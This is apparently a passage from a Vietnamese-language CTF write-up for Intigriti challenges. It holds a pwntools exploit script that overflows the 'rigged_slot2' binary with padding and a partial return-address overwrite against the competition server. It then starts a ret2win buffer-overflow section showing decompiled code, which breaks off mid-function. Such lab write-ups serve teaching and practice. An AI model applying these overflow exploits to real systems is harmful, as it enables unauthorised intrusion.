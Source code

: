 ```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./rigged_slot2_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

#p = process()
p = remote('riggedslot2.ctf.intigriti.io', 1337)
#gdb.attach(p,gdbscript='''
#           brva  0x00000000000014A7
#           brva 0x00000000000014C2
#           brva 0x0000000000001635
#           ''')
payload = b'a'*20
payload += b'\x56\x68\x14'



input()
p.sendline(payload)
p.sendlineafter(b'spin): ',b'10')

p.interactive()
```

chú  ý là các byte phải gửi theo little endian


![image](https://hackmd.io/_uploads/HytW9_OGke.png)

--------


## Retro2Win



1 bài BOF ret2win cơ bản

```c
// local variable allocation has failed, the output may be wrong!
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+Ch] [rbp-4h] BYREF

  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        show_main_menu(*(_QWORD *)&argc, argv, envp);
        argv = (const char **)&v4;
        *(_QWORD *)&argc = "%d";
        __isoc99_scanf("%d", &v4);
        getchar();
        if ( v4 != 1337 )
          break;
        enter_cheatcode();
      }
      if ( v4 <= 1337 )
        break;
```